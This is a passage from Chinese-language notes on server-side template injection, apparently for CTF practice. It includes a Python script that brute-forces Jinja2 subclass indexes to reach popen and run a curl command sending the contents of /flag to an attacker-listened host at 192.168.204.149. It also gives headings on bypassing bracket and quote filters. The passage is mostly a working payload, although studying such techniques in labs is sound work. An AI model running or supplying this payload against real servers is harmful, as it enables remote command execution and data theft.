 ## 2.带外注入

kali开启python监听

python3 -m http.server 80

```python
import requests
url=input('请输入URL:')
for i in range(500):
    try:
        data={"code":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('curl http://192.168.204.149/`cat /flag`').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

# 7.绕过中括号过滤

使用getitem函数  

```
__getitem__()=[]
```

# 8.绕过单双引号过滤&&args被过滤

## 1.request.args.cmd配合get提交

![image-20240513162251340](SSTI/image-20240513162251340.png)
